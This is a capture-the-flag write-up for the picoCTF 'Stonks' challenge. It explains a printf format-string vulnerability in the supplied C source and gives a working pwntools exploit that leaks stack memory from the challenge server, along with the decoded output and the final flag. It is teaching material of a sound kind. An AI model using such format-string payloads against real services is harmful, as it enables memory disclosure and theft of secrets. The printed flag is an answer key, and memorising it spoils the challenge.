 # Stonks

**Author:** [yairp03](https://github.com/yairp03)  
**Category:** Binary Exploitation  
**Points:** 20

# Challenge

## Description

I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! [vuln.c](./vuln.c) `nc mercury.picoctf.net 33411`

## Source

[vuln.c](./vuln.c) (C source)

# Solution

In this challenge, we are given a [C source file](./vuln.c), and it's name suggests that it has a vulnerability. Looking at the code, we see this part:

```c
printf("What is your API token?\n");
scanf("%300s", user_buf);
printf("Buying stonks with token:\n");
printf(user_buf);
```

The program asks for a user input, and then passes it using printf. This is vulnerable to a [format string attack](/Guides/Vulnerabilities/Format%20String%20Vulnerability.md). Leveraging this vulnerability, we can print out values from the stack. The flag is saved somewhere on the stack, so if we print out enough values, we should be able to find it. Let's do it using python and the [pwntools](/Guides/Tools/pwntools.md) library:

```python
from pwn import *

# Establish connection
conn = remote('mercury.picoctf.net', 33411)

# Route to the exploit
conn.sendlineafter('2) View my portfolio\n', '1')
conn.recvuntil('What is your API token?\n')

# Exploit
conn.send('%x' + '.%x' * 40 + '\n')

# Route to the leak
conn.recvuntil('Buying stonks with token:\n')
# Get the data
stack = conn.recvline(False).decode()

# Parse the data
result = b''
for h in stack.split('.'):
    result += p32(int(h, 16))

# Extract the flag
flag = result[result.find(b'picoCTF{'):result.find(b'}') + 1].decode()

# Print the flag
print(flag)
```

The code is connect to the server, routes to the exploit, and then sends the exploit. The exploit is a format string that prints out 41 values from the stack (each is 4 bytes long). Then, the code routes to the leak, and gets the data. In this part, the variable `stack` has something that looks like this:

```python
> print(stack)
b'8f6c3f0.804b000.80489c3.f7f44d80.ffffffff.1.8f6a160.f7f52110.f7f44dc7.0.8f6b180.a.8f6c3d0.8f6c3f0.6f636970.7b465443.306c5f49.345f7435.6d5f6c6c.306d5f79.5f79336e.63343261.36613431.fffa007d.f7f7faf8.f7f52440.a7531300.1.0.f7de1ce9.f7f530c0.f7f445c0.f7f44000.fffaadd8.f7dd268d.f7f445c0.8048eca.fffaade4.0.f7f66f09.804b000'
```

We can see that after 14 values, we have the value `6f636970`, which is ascii for `ocip`, which is `pico` backwards. This is the start of the flag. We use the function `p32` from pwntools to convert each value to a 4-byte string, and then concatenate them. Finally, we extract the flag from the data:

```python
> print(flag)
picoCTF{I_l05t_4ll_my_m0n3y_a24c14a6}
```

**The Flag:** `picoCTF{I_l05t_4ll_my_m0n3y_a24c14a6}`
